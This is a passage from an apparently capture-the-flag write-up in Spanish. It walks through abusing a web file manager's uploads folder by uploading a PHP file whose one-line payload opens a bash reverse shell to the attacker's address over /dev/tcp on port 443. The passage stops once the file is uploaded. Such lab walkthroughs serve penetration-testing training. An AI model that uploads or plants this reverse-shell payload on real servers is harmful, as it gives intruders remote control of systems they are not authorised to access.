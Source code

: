 Nos aparece lo siguiente...

![filemanager_Web](/assets/img/filemanager.png)
![directorio](/assets/img/tinydirectorio.png)
Vemos lo que parece un *gestor o adminitrador de archivos* donde si nos fijamos tiene un apartado uploads, en el que probaremos a subir nuestro *archivo php* con la esperanza de que sea factible.

Debemos de tener en cuenta que solo tenemos permisos en la carpeta ***tiny/uploads***, es alli donde se alojara nuestro archivo.

Nos creamos nuestro archivo ***php*** con carga util para poder establecer una shell reversa atraves de nuestro archivo, el comando es el siguiente:


```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.33/443 0>&1'")
?>
 ```

Lo subimos...

![upload](/assets/img/upload.png)

Una vez tenemos el archivo subido pulsamos en el para obtener la sieguiete ventana...
